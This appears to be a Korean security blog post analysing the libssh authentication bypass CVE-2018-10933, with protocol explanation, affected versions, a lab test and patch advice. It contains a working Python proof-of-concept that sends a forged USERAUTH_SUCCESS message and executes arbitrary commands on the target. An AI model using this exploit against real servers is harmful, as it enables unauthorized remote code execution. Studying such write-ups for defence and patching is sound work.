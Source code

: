 ```yaml
---
layout: post
comments: true
categories: posts
title: CVE-2018-10933 libssh authentication bypass
subtitle: This is an important security and maintenance release in order to address CVE-2018-10933.
author: cainstorm
featured-image: /images/header/header_001.jpg
tags: [vulnerability]
date-string: OCTOBER 23, 2018
---
```


<script src="//ajax.googleapis.com/ajax/libs/jquery/1.9.1/jquery.min.js"></script>
<script>window.jQuery || document.write('<script src="_/js/libs/jquery-1.9.1.min.js"><\/script>')</script>

### Description
원격 로그인 프로토콜인 Secure Shell(SSH) 구축에 사용되는 모듈 libssh 이용 서버의 인증 우회공격 취약점(로그인 인증 과정 없이 원격코드 실행 가능)
공격 호스트에서 "SSH2_MSG_USERAUTH_SUCCESS" 메시지를 전송하여 이미 인증이 성공적으로 이루졌다는 패킷 전달로 인증우회

> **CVE ID : CVE-2018-10933**
> VCSS 3.X Severity and Metrics: 
> - CNA : Red Hat, Inc.
> - Base Score : 9.1 CRITICAL
> - Vector : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

영향받는 Version
- libssh version >= 0.6
- libssh version < 0.7.6
- libssh version < 0.8.4

해당 취약점은 libSSH가 인증을 진행하기 위해 **SSH_MSG_USERAUTH_REQUEST** 상태로 대기중 일때 PoC 코드에서 전송된 **SSH_MSG_USERAUTH_SUCCESS** 패킷을 서버가 수신하게 되면 공격자가 정상적으로 인증되었다고 판단하여 연결을 허용하게 된다.

<center>
		<img src="/images/2018-10-28/2018-10-28-vul-001.jpg">
</center>

- SSH_MSG_USERAUTH_REQUEST(50) : 클라이언트가 보내는 인증 요청 방식
- SSH_MSG_USERAUTH_FULLURE(51) : 하나 이상의 인증 방법을 요구할 경우
- SSH_MSG_USERAUTH_SUCCESS(52) : 서버가 인증을 수용

정상적인 인증과정
1. 클라이언트가 서버에게 인증 방법 문자열이  'none'인 SSH_MSG_USERAUTH_REQUEST 를 요청
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
  유효하지 않을 시, SSH_MSG_USERAUTH_FAILURE를 보내고 연결 설정을 종료하며, 서버는 SSH_MSG_USERAUTH_REQUEST를 전송
1. 클라이언트는 인증 방법 중 하나를 선택하고, 선택된 인증방법과 필요한 필드와 함께 SSH_MSG_USERAUTH_REQUEST를 전송
1. 서버는 클라이언트가 보낸 사용자 이름이 유효한지 여부 확인
1. 요구된 모든 인증에 성공하면, 서버는 SSH_MSG_USERAUTH_SUCCESS 메시지를 송신하고 인증 프로토콜 종료  
 


### Testing Vulnerability 
Attacker :Kali linux (192.168.46.130)<br>
Victim : Ubuntu 16.04.6 LTS (192.168.46.137) -> Docker_apache solr 8.1.1 (172.17.0.3)


'''
\#!/usr/bin/python3

import sys
import paramiko
import socket

s = socket.socket()
s.connect(("192.168.46.142",2222))
m = paramiko.message.Message()
t = paramiko.transport.Transport(s)
t.start_client()
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)  // 인증 우회를 위한 코드
t._send_message(m)
c = t.open_session(timeout=5)
c.exec_command(sys.argv[1])
out = c.makefile("rb",2048)
output = out.read()
out.close()
print (output)
'''

<br>
<center>
    <div class="photoset-grid-custom" data-layout="122">
        <img src="/images/2018-10-28/2018-10-28-vul-002.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-003.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-004.jpg">
		<img src="/images/2018-10-28/2018-10-28-vul-005.jpg">
        <img src="/images/2018-10-28/2018-10-28-vul-006.jpg">
    </div>
</center>

원격코드 실행 명령 중 서버와 통신 내역 확인 시, 암호화된 패킷으로 인패 원격실행 명령(hostname) 부분을 확인할 수 없으나
서버측에서 노출되는 libssh 정보 문자열 **SSH-2.0-libssh_0.8.3** 과 공격자 측에서 Poc 실행 중 사용되는 파이썬 모듈명 **paramisk** 가 확인된다.
- paramiko : 파이썬에서 가장 많이 사용되는 SSH Library 모듈(telnet 은 telnetlib)

### Solution
- 제조사 홈페이지를 참고하여 최신버전으로 보안 업데이트 수행
- 0.7.6 버전으로 업데이트(0.7번대 및 이전 버전 사용자)
- 0.8.4 버전으로 업데이트(0.8번대 및 이전 버전 사용자)

<script src="/assets/js/jquery.photoset-grid.js"></script>

<script type="text/javascript">
    $('.photoset-grid-custom').photosetGrid({
    // Set the gutter between columns and rows
    gutter: '5px',
  
    // Wrap the images in links
    highresLinks: true,
  
    // Asign a common rel attribute
    rel: 'print-gallery',

    onInit: function(){},
    
    onComplete: function(){
        // Show the grid after it renders
        $('.photoset-grid-custom').attr('style', '');
    }
});
</script>

### References
---
- https://www.guardicore.com/2018/10/libssh-new-vulnerability-allows-authentication-bypass
- https://www.kitploit.com/2018/10/libssh-scanner-script-to-identify-hosts.html
- https://koromoon.blogspot.com/2018/10/cve-2018-10933-libssh.html
- https://www.youtube.com/watch?v=ZSWQjmfcn4g
- https://www.krcert.or.kr/data/secNoticeView.do?bulletin_writing_sequence=27704

---
{% if page.comments %}
<div id="post-disqus" class="container">
{% include disqus.html %}
</div>
{% endif %}
